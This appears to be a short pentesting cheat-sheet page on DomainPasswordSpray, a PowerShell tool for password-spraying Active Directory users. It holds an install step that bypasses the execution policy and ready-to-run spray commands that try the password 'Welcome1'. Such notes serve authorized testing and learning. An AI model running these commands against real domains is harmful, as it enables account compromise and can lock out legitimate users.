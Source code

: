 ```yaml
---
title: DomainPasswordSpray
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - enumeration
  - active
  - directory
---
```

# DomainPasswordSpray

DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain. By default it will automatically generate the userlist from the domain. BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

Repo: [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

## Installation

```cmd-session
# Open cmd 
powershell.exe -exec bypass

Import-Module DomainPasswordSpray.ps1
```


## Basic commands

```powershell-session
# Authenticated in the domain:
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
# If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

# Not authenticated in the domain:
Invoke-DomainPasswordSpray -UserList userlist.txt -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```